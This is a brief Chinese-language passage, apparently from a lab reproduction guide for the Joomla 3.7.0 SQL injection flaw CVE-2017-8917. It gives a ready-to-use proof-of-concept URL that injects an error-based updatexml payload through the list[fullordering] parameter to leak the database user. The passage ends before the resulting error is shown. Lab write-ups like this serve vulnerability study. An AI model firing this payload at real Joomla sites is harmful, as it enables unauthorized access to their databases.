 # Joomla 3.7.0 SQL注入漏洞CVE-2017-8917

安装完成后，访问`http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)`,即可看到报错信息：